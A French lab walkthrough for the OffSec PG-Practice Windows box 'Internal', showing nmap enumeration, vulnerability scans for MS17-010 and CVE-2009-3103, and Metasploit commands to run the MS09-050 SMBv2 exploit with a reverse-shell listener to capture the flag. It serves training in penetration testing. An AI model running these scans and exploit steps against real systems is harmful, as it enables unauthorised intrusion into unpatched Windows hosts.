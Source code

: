 ```yaml
---
title: PG-Practice Internal 
meta_title: ""
description: La box Internal est une box proposée par l'Offsec dans sa catégorie PG-Practice. Il s'agit d'une box Windows Easy exploitant une vulnérabilité SMB peu connue. Elle ne requiert pas d'élévation de privilèges.
date: 2024-04-04T05:00:00Z
image: /images/offsec-banner.jpg
categories:
  - Réaliste
  - Facile
author: Emma.exe
tags:
  - realiste
  - pg-practice
  - offsec
draft: false
---
```


# Introduction

La box Internal est une box proposée par l'Offsec dans sa catégorie PG-Practice.
Il s'agit d'une box Windows Easy exploitant une vulnérabilité SMB peu connue.
Elle ne requiert pas d'élévation de privilèges.

Pour la résolution de ce challenge je vous propose deux niveaux d'aide : 
- Le premier niveau sous la forme d'indices et de ressources à explorer pour résoudre le challenge, sans pour autant donner la solution
- Le deuxième niveau qui présente un exemple de résolution.

{{< notice "tip" >}} Essayez de ne pas regarder la solution si vous voulez vraiment progresser. Une fois le challenge résolu, il peut être intéressant de la regarder pour apprendre de nouvelles techniques ! {{< /notice >}}


# Enumération

{{< tabs >}} {{< tab "Niveau 1" >}}
On commence toujours par énumérer la machine avec nmap.
Veillez à bien énumérer tous les ports de la machine pour être sûrs de ne rien manquer.
En effet, il est courant que les créateurs des box modifient les ports par défaut.
Ainsi, on peut très bien trouver un site web sur le port 8080 par exemple.

Une fois que vous possédez une meilleure connaissance de votre machine, des services qui tournent etc, vous pouvez partir à la recherche de vulnérabilités.

Il est important d'énumérer la machine **entièrement** avant de passer à la phase d'exploitaiton pour éviter de perdre trop de temps.

Si vous ne trouvez pas de vulnérabilités, c'est certainement que vous n'avez pas assez énumérer.

Pour la recherche de vulnérabilités, connaissez-vous **Nmap Script Engine (NSE)** ?

{{< /tab >}}

{{< tab "Niveau 2" >}}
Pour l'énumération, j'utilise les options suivantes : 
- `-p-` pour énumérer tous les ports
- `-sV` pour obtenir les versions des services

Résultats :
```sh
nmap -p- 192.168.242.40 -sV            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-02 09:26 EDT
Nmap scan report for 192.168.242.40
Host is up (0.016s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
53/tcp    open  domain             Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: INTERNAL; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008::sp1, cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.70 seconds
```

Il n'y a rien de particulier d'ouvert, on peut tester si la vulnérabilité MS10 17 (eternal blue) est présente sur la machine : 
```sh
nmap -p445 --script smb-vuln-ms17-010 192.168.242.40
```

C'est effectivement vulnérable !
**Cependant**, il est important d'énumérer la machine entièrement avant de passer à la phase d'exploitation.

Nous allons donc effectuer un autre scan de vulnérabilité plus généraliste avec nmap : 
```sh
nmap --script vuln 192.168.242.40 
Host script results:
| smb-vuln-cve2009-3103: 
|   VULNERABLE:
|   SMBv2 exploit (CVE-2009-3103, Microsoft Security Advisory 975497)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2009-3103
|           Array index error in the SMBv2 protocol implementation in srv2.sys in Microsoft Windows Vista Gold, SP1, and SP2,
|           Windows Server 2008 Gold and SP2, and Windows 7 RC allows remote attackers to execute arbitrary code or cause a
|           denial of service (system crash) via an & (ampersand) character in a Process ID High header field in a NEGOTIATE
|           PROTOCOL REQUEST packet, which triggers an attempted dereference of an out-of-bounds memory location,
|           aka "SMBv2 Negotiation Vulnerability."
|           
|     Disclosure date: 2009-09-08
|     References:
|       http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT
|_smb-vuln-ms10-054: false

```

On voit que la machine est aussi vulnérable à la faille "**SMBv2 Negotiation Vulnerability**" c'est-à-dire la **CVE-2009-3103**. Il est plus probable que ce soit cette vulnérabilité-là que l'auteur de la box veut nous faire exploiter.
En effet, elle est très intéressante puisqu'elle va permettre d'effectuer une RCE (Remote Execution Code) et potentiellement nous permettre d'obtenir un shell interactif. 
{{< /tab >}}
{{< /tabs >}}

# Recherche d'exploit


{{< tabs >}} {{< tab "Niveau 1" >}}

Afin de rechercher des exploits, vous pouvez utiliser la commande : `searchsploit`.
Searchsploit est un outil en ligne de commande qui permet de rechercher et télécharger des exploits depuis le site exploit-db.

Afin de faire une recherche efficace, n'hésitez pas à varier vos mots-clefs. Souvent une vulnérabilité porte plusieurs noms.
Sur exploit-db, il est rare de trouver les noms des CVE.

Autre ressource : Nous avons créer une documentation Meterpreter si vous souhaitez l'utiliser pour résoudre ce challenge : [Meterpreter](../../fiche/meterpreter)

{{< /tab >}}
{{< tab "Niveau 2" >}}
Afin de trouver un exploit, je commence par me renseigner sur la vulnérabilité.
Premièrement, les vulnérabilités Windows sont souvent appelés par l'indicatif Microsoft.
Dans notre cas, on voit qu'elle est aussi appelé "MS09-050".
La vulnérabilité est due à une mauvaise implémentation du protocole SMBv2 dans certaines versions de Windows

Je fais une recherche sur le site https://exploit-db.com en utilisant MS09-050 et je constate qu'il existe plusieurs exploits.

exploit-db nous permet de voir si l'exploit a été vérifié ou non. Dans la mesure du possible, on privilégie les exploits qui le sont.

> Si vous décidez de choisir un exploit non vérifié, il est important de regarder ce que fait réellement l'exploit. 

Ici il n'y en a qu'un seul vérifié, disponible ici : 
https://www.exploit-db.com/exploits/16363

Il s'agit d'un module Metasploit.
{{< /tab >}}
{{< /tabs >}}

# Exploitation

{{< tabs >}} {{< tab "Niveau 1" >}}

Pour la phase d'exploitaion, veillez à bien renseigner les options dont nécessite l'exploit que vous souhaitez utiliser.

Si celui-ci a besoin de notre IP locale, pensez à renseigner celui de l'interface vers le réseau de l'Offsec.  

Enfin, il existe de nombreux exploits pour une seule faille. Si le premier ne fonctionne pas, tentez-en un autre. 

{{< /tab >}}
{{< tab "Niveau 2" >}}
Nous lançons donc Metasploit en sudo :
```sh
sudo msfconsole
```

On recherche l'exploit en recherchant son ID : 
```sh
search exploit ms09_050_smb2_negotiate_func_index
```

Il devrait normalement apparaitre dans la recherche. 
{{< image src="images/PG-Internal-msfconsole-search.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}
On récupère son chemin et on tape la commande :

```sh
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index  
```

On affiche les options que nécessite l'exploit pour fonctionner en tapant la commande : 
```sh
show options
```

{{< image src="images/PG-Internal-msfconsole-options.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}

On voit deux options requises qui ne sont automatiquement renseignée ou qu'il faut modifier : l'hôte distant (Remote Host) et l'hôte qui va réceptionner le shell (Listen Host).

On configure les options comme suit : 
```sh
set RHOSTS <ip-cible>
set LHOST <ip-local>
```

> Pour l'IP local, il faut bien choisir l'IP de l'interface qui communique avec le réseau Offsec (généralement celle de tun0)

On exécute l'exploit en tapant la commande : 
```sh
run
```

Au bout de quelques instants, on obtient un shell et on récupère le flag qui se trouve toujours sur le bureau Administrateur.

{{< /tab >}}
{{< /tabs >}}

